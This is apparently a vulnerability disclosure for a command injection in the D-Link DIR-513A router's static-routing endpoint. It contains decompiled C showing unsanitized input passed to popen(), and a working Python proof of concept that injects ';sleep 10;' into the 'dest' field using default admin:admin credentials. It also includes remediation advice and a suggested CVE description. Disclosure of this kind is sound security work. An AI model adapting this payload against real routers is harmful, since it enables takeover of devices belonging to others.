


### 1. Vulnerability Summary

* **Vulnerability Type:** OS Command Injection (CWE-78)
* **Affected Component:** Router Web Management Interface (based on GoAhead Web Server)
* **Affected Endpoint:** `/goform/addRouting` (or related endpoint bound to the `sub_4213B0` function)
* **Vulnerable Parameter(s):** `dest` (and subsequently `netmask`, `gateway`)
* **Prerequisite:** Authentication Required (Post-Auth)
* **Affected Product & Firmware Version:** D-Link DIR-513A (Hardware Rev: A1, Firmware Version: FW1.10.00TW   bin:DIR513AA1_FW1.10.00TW_20141029.bin)

### 2. Detailed Vulnerability Description

In the backend handler function `sub_4213B0` responsible for adding static routing rules, the program fails to sanitize user-submitted HTTP form parameters before concatenating them into a system shell command. This oversight results in a critical OS Command Injection vulnerability.



The vulnerability trigger chain is as follows:

**Step 1: Unsafe Data Extraction**

The program retrieves multiple user-controlled parameters, including the destination IP address (`dest`), using the `websGetVar` function. No input sanitization or validation is applied to check for shell metacharacters:

**C**

```
Var = (const char *)websGetVar(a1, "dest", "");
v4 = (const char *)websGetVar(a1, "netmask", "");
v5 = (const char *)websGetVar(a1, "gateway", "");
```

**Step 2: Unsafe String Concatenation**

The program constructs a system command string (stored in the `v18` buffer) using `strcat` and `sprintf`. It directly appends the unvalidated user inputs (`Var`, `v4`, `v5`) into the `route add` command layout:

**C**

```
strcat(v18, "route add ");
// ...
strcat(v18, Var); // The vulnerable 'dest' parameter is directly appended
strcat(v18, " ");
```

**Step 3: Dangerous Command Execution (Taint Sink)**

The constructed command string is then directly passed to the `popen()` function to be executed by the underlying operating system shell. Because the inputs were not sanitized, an attacker can use shell terminators (like `;`) to break out of the intended `route add` command and append their own malicious commands.

**C**

```
v13 = popen(v18, "r");
```

### 3. Impact Analysis

* **Remote Code Execution (RCE):** By injecting shell metacharacters (e.g., `;`, `|`, `&`) into parameters such as `dest`, an authenticated remote attacker can execute arbitrary OS commands with the privileges of the GoAhead web server process (typically `root` on embedded Linux routers).
* **Complete System Compromise:** Successful exploitation allows an attacker to gain full control over the device. They can establish persistent backdoors (e.g., spawning `telnetd`), intercept or modify network traffic, alter routing tables to facilitate Man-in-the-Middle (MitM) attacks, or pivot to attack internal network devices.

### 4. Proof of Concept (PoC)

The following Python script safely verifies the Command Injection vulnerability using a time-based blind injection technique. It injects a `sleep 10` command into the `dest` parameter. If the router's response is delayed by 10 seconds or times out, it proves the arbitrary command was successfully executed by the `popen()` function.

**Python**

**Python**

```
import requests
import time

# 1. Target router IP address
router_ip = "192.168.0.1" 

# Endpoint bound to sub_4213B0 (Routing Configuration)
url = f"http://{router_ip}/goform/addRouting" 

# 2. Construct request headers (Requires authentication)
headers = {
    "User-Agent": "Mozilla/5.0 (Windows NT 10.0; Win64; x64)",
    "Content-Type": "application/x-www-form-urlencoded",
    "Authorization": "Basic YWRtaW46YWRtaW4=",  # admin:admin in Base64
    "Cookie": "language=en"
}

# 3. Construct the malicious Payload
# We inject our command by closing the IP with a semicolon.
# The resulting command executed by the system: route add -host 1.1.1.1;sleep 10; ... 
payload = {
    "dest": "1.1.1.1;sleep 10;", 
    "hostnet": "host",
    "netmask": "255.255.255.0",
    "gateway": "192.168.0.254",
    "interface": "LAN"
}

print(f"[*] Preparing to send Command Injection payload...")
print(f"[*] Target URL: {url}")
print(f"[*] Injected payload into 'dest': {payload['dest']}")

try:
    start_time = time.time()
  
    # Send POST request with a timeout slightly longer than our sleep command
    response = requests.post(url, data=payload, headers=headers, timeout=15)
  
    elapsed_time = time.time() - start_time
  
    print(f"[*] HTTP Status Code: {response.status_code}")
    print(f"[*] Total request time: {elapsed_time:.2f} seconds")
  
    # Verification logic
    if elapsed_time >= 10:
        print("\n[+] Trigger Successful! (Vulnerable)")
        print("[+] The response was delayed. The system executed the injected `sleep 10` command!")
    else:
        print("\n[-] The response was fast. The injection may have failed.")

except requests.exceptions.ReadTimeout:
    print("\n[+] Trigger Successful! (Timeout)")
    print("[+] The request timed out! This confirms the injected `sleep 10` command was executed and blocked the server process.")
except Exception as e:
    print(f"\n[-] An unexpected exception occurred: {e}")
```

### 5. Remediation Recommendations

1. **Strict Input Validation:** Implement robust whitelist-based validation for all routing parameters. For IP-related fields (`dest`, `netmask`, `gateway`), enforce strict IPv4/IPv6 formatting rules. Reject any input containing shell metacharacters immediately.
2. **Avoid Shell Invocation:** Eliminate the use of `popen()` and `system()` for executing system commands with user-supplied data.
3. **Use Safe APIs:** When modifying routing tables in Linux, developers should use native C APIs (such as Netlink sockets or `ioctl` with `SIOCADDRT`) rather than invoking the external `route` binary via a shell.

### 6. Suggested CVE Description

> An OS Command Injection vulnerability in the GoAhead Web Server of the D-Link DIR-513A router (Hardware Revision A1, Firmware Version FW1.10.00TW) allows authenticated remote attackers to execute arbitrary system commands. The vulnerability occurs in the `/goform/addRouting` endpoint (handled by the `sub_4213B0` function), where user-supplied HTTP parameters such as `dest`, `netmask`, and `gateway` are insecurely concatenated into a system command string and executed via the `popen()` function without sufficient sanitization.

### 7. Overcome (Verification Screenshots)


